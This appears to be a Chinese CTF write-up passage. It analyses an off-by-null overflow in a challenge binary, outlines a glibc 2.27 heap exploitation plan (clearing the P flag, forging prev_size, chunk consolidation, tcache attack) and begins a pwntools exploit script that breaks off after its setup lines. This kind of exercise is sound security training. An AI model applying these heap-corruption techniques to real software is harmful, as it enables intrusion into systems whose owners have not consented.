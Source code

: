 **漏洞**

```
最后 input[i] = ‘\0’;时有一个offset by null
循环结束时, i=end+1
end=k-1, 因此max(end) = max(k)-1
k最大 = len
综上, i最大为len, 溢出 
```

接下来就是漫漫构造路, 因为算法直接逆不出来, 就只能凭感觉去fuzz, 最终测试出来发现回文串时, 可以让k=len
![在这里插入图片描述](img/60cab557166e3520b2b9bf7cec28afa0.png)
**思路**

所以此时题目就和Play无关了, Play只是提供了一个offset by null而已

题目就变成了2.27下的offset by null

常规手法: 踩掉P标志, 构造隔块合并, 然后接触Tcache

Play去踩P标志时没法伪造size, 解决方法:

踩完之后free掉, 再通过Add申请写入数据, 就可以在保留P=0的前提下, 伪造prev_size了

**EXP**

```
#! /usr/bin/python
# coding=utf-8
import sys
from pwn import *
from random import randint

context.log_level = 'debug'
context(arch='amd64', os='linux')

elf = ELF('./pwn')
libc=ELF('./libc.so.6')

def Log(name):    
    log.success(name+' = '+hex(eval(name)))

if(len(sys.argv)==1):            #local
    sh = process('./pwn')
    #proc_base = sh.libs()['/home/parallels/pwn']
```